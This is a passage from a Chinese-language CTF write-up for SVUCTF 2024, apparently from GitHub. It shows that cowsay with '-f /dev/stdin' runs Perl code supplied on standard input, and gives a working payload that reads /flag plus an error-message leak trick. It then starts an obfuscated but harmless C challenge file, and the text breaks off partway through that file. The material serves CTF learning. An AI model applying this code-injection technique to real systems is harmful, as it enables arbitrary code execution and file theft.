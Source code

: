如果 `cowsay -f /dev/stdin "Hello SVUCTF!"` 或 `cowsay -f /proc/self/fd/0 "Hello SVUCTF!"`，则会从标准输入中读取内容，并作为 Perl 代码执行。

```
$ cowsay -f /dev/stdin "Hello SVUCTF!"
print "Hacked!\n";
print "Perl version: $]\n";
Hacked!
Perl version: 5.038002
 _______________
< Hello SVUCTF! >
 ---------------
```

可以看到输入的两行 Perl 代码被成功执行。

> 注意：在命令行参数中传入消息内容更方便（此题也是这样），不然要按两次 CTRL-D，分别结束消息输入和 Perl 代码输入。

使用 `/dev/stdin` 作为 `cowfile` 路径，输入 `` print `cat /flag`; ``，按下 CTRL-D 结束输入，执行代码获得 Flag：

```
Enter the name of the cowfile (e.g., default, sheep, dragon):/dev/stdin
Enter the message:Hello SVUCTF!
print `cat /flag`;
die "moo~";
flag{GZCTF_dynamic_flag_test}
 _______________
< Hello SVUCTF! >
 ---------------
```

`die "moo~";` 是啥？其实这是一句 Perl 代码，被我写在了 Flag 文件的第一行，避免直接使用 `/flag` 作为 `cowfile`，继而通过代码报错得到 Flag：

```
Enter the name of the cowfile (e.g., default, sheep, dragon):/flag
Enter the message:asdasd
cowsay: moo~ at /flag line 1.
```

### 签到

附件 [saya.c](https://github.com/SVUCTF/SVUCTF-SPRING-2024/blob/main/challenges/misc/moe_obfuscate/attachments/saya.c)：

```c
                          L[29]={18414916,16301615                          
                       ,31491134,16303663,32570431                          
                    ,1113151,32039998,18415153,14815374                     
                  ,15254040,18128177,32539681,18405233,                     
                18667121,33080895,1097263,17258030, 18136623                
               ,33061951,4329631,33080881,4539953,18732593,18157905         
             ,4329809,32575775,31523934,16007439,32505856 ,};F              
            [27] ={ 5,11,0,    6,26,12,14,4,28,14,1,5  ,20,18,2,            
          0,19,  4, 3,28,2,     28,2 ,14,3,4,27};row,i ,column,length       
        ,idx;main(int argc,      char* argv[]){char*text={ 0};if(argc       
      ==1){for( row=0;row          <5;   row++){for(i= 0;i <27;i++){for     
    (column=0;  column<               5;    column++){ putchar((            
               L[F [i]]                        &( 1<<( row *                
               5+column                           )))? '#'                  
               :' ');}putchar                     (' ');}putchar            
                ('\n');                           }printf(                  
                "Usage: %s <text>\n"              ,argv[0                   
                ]) ;}else                         if(argc                   
                ==2){text                        =argv [1                   
                ];length =                       strlen(text                
                );for(row=0;                   row<5; row                   
                ++) {for(i=0;i               <length; i++                   
                ){if (text[i]>=           'A' && text [i]                   
               <='Z'){idx =text[         i]-'A';}else if(text               
```